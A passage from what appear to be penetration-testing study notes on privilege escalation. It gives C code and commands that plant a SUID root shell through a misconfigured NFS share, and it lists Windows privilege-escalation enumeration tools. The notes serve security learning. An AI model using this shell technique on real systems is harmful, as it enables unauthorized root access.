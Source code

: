 From the attacker machine, we can compile a program that opens a bash shell with SUID :
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

We can go to the mounted folder, compile this program there and set its SUID bit :
```shell
cd /tmp/backup
gcc myshell.c -o myshell -w
chmod +s myshell
mv myshell /tmp/backup
```

Then from the compromised account on the NFS server we can execute it to open a root shell.


### Windows Enumeration

In Windows, users can be categorized in the following groups :
- Administrators : can change any system configuration parameter and access any file
- Users : can access the computer and perform limited tasks, usually no permanent change to the system, and limited access to files

The following Windows built-in accounts are also used in privilege escalation :
- SYSTEM/LocalSystem : used by the OS for internal tasks, full access to file and resources on the host with higher privilege than administrators
- Local Service : default account running Windows services with minimum privilege and anonymous connections to the network
- Network Service : default account running Windows services with minimum privilege and using the computer's credentials for connections to the network

The following automated enumeration tools can find potential privilege escalation paths :
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) : Windows equivalent of LinPEAS
- [PrivescCheck](https://github.com/itm4n/PrivescCheck) : PowerShell script to identify local privilege escalation
- [WES-NG](https://github.com/bitsadmin/wesng) (Windows Exploit Suggester - New Gen) : Python script running on the attacker machine to identify privilege escalation paths.  
  We need to run `systeminfo > systeminfo.txt` on the target machine, send the output to the attacker machine, then run `wes.py --update ; wes.py systeminfo.txt`
- Metasploit `multi/recon/local_exploit_suggester` module when we already have a Meterpreter session on the target


### Windows Privilege Escalation Techniques

#### Unattended Windows Installation
